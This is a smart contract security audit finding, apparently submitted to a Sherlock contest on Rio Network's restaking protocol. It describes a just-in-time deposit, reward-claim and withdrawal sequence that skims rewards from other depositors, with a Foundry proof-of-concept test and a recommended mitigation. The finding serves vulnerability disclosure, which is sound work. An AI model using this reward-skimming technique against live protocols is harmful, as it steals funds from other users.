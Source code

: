 Nutty Indigo Duck

medium

# Attacker can deposit just before rewards are distributed and steal rewards

## Summary
Using several contract mechanisms explained below, an attacker could do a just-in-time attack by doing a deposit then trigger reward collection and withdraw after, to earn rewards at the expense of other users.

## Vulnerability Detail
Rio's process of claiming Consensus Layer rewards can be triggered by anyone. It involves 1) proving partial withdrawals on Eigenpod, 2) scraping non-beacon chain ETH, and 3) sending rewards through the delayedWithdrawalRouter. 

delayedWithdrawalRouter is an Eigenlayer [contract](https://github.com/Layr-Labs/eigenlayer-contracts/blob/23ab4c8da36d1b08c5fb5f7679811c79a9c7733b/src/contracts/pods/DelayedWithdrawalRouter.sol#L100) which states this warning on `claimDelayedWithdrawals()`: 
>  *      WARNING: Note that the caller of this function cannot control where the funds are sent, but they can control **when** the funds are sent once the withdrawal becomes claimable.

Rewards are sent to Rio's rewards distributor and eventually to the depositPool where they become part of the overall TVL which increases reETH's value. 

An attacker could time his deposit, claim rewards and withdraw immediately after to gain rewards. The attack is possible because 1) anyone can make the calls to claim rewards, and 2) withdrawals can be immediate if there is sufficiently liquidity in the deposit pool.

Consider this scenario:
1. Attacker observes Rio's bots proving partial withdrawals and calling `scrapeNonBeaconChainETHFromEigenPod()` which creates a delayed withdrawal on Eigenlayer, to be claimed after a delay period.
2. After the delay period is over, attacker races/frontruns to submit a bundled tx that does 1) deposit into Rio to receive reETH, 2) call `claimDelayedWithdrawals` on Eigenlayer, and 3) queue a withdrawal on Rio. 
3. Next, the attacker uses an EOA to call `rebalance()`(only EOA allowed to call) which offsets the attacker's withdraw request against the deposits he made, allowing for immediate settlement. 
4. Attacker then calls `claimWithdrawalsForEpoch` and receives his original deposit plus a portion of whatever rewards that was in the deposit pool. 

Run this POC in RiolLRTWithdrawQueue.t.sol.
```solidity
//import {RioLRTOperatorDelegator} from 'contracts/restaking/RioLRTOperatorDelegator.sol';

function test_POC1() public {        
        address attacker = address(0xa);
        address victim = address(0xb);
        vm.deal(victim, 96 ether);

        uint8 operatorId = addOperatorDelegator(reETH.operatorRegistry, address(reETH.rewardDistributor));
        RioLRTOperatorDelegator delegatorContract =
            RioLRTOperatorDelegator(payable(reETH.operatorRegistry.getOperatorDetails(operatorId).delegator));

         // The victim deposits 96 ETH.
        vm.prank(victim);
        uint256 reETHVictim = reETH.coordinator.depositETH{value: 96 ether}();
        vm.prank(EOA, EOA);
        reETH.coordinator.rebalance(ETH_ADDRESS);

        // Over time the eigenpod earns rewards
        (bool success,) = address(delegatorContract.eigenPod()).call{value: 1.123 ether}('');
        assertTrue(success);

        vm.startPrank(attacker);
        // Attacker waits for rebalance period to be just over
         skip(reETH.coordinator.rebalanceDelay());
        // assume attacker borrows 100 ether from aave;
        vm.deal(attacker, 100 ether);
        // Attacker deposits
        uint256 reETHAttacker = reETH.coordinator.depositETH{value: 100 ether}();
        // Sweep rewards to deposit pool
        delegatorContract.scrapeNonBeaconChainETHFromEigenPod();
        delayedWithdrawalRouter.claimDelayedWithdrawals(address(reETH.rewardDistributor), 1);
        assertGt(address(reETH.depositPool).balance, 100 ether);
        // Immediately queues withdrawal
        reETH.coordinator.requestWithdrawal(ETH_ADDRESS, 100 ether);
        vm.stopPrank();

        // Triggers rebalance
        uint256 withdrawalEpoch = reETH.withdrawalQueue.getCurrentEpoch(ETH_ADDRESS);
        vm.prank(EOA, EOA);
        reETH.coordinator.rebalance(ETH_ADDRESS);

        vm.prank(attacker);
        uint256 amountOut = reETH.withdrawalQueue.claimWithdrawalsForEpoch(
            IRioLRTWithdrawalQueue.ClaimRequest({asset: ETH_ADDRESS, epoch: withdrawalEpoch})
        );
        // Attacker gains 0.5 ether approx. half of rewards
        assertGt(amountOut, 100.5 ether);
    }
```

## Impact
Unfair distribution of rewards. The attacker gains a share of the rewards, despite only depositing for several blocks, essentially stealing the rewards from other users. The attack can also be done repeatedly for every validator amounting to a large reward value stolen.

## Code Snippet
https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/DelayedWithdrawalRouter.sol#L99
https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTOperatorDelegator.sol#L150

## Tool used
Manual Review

## Recommendation
Consider better ways to distribute rewards to prevent just-in-time liquidity attacks and ensure the integrity of rewards distribution. For example, rewardsDistributor could periodically drip rewards over time to the deposit pool instead of sending one lump sum. 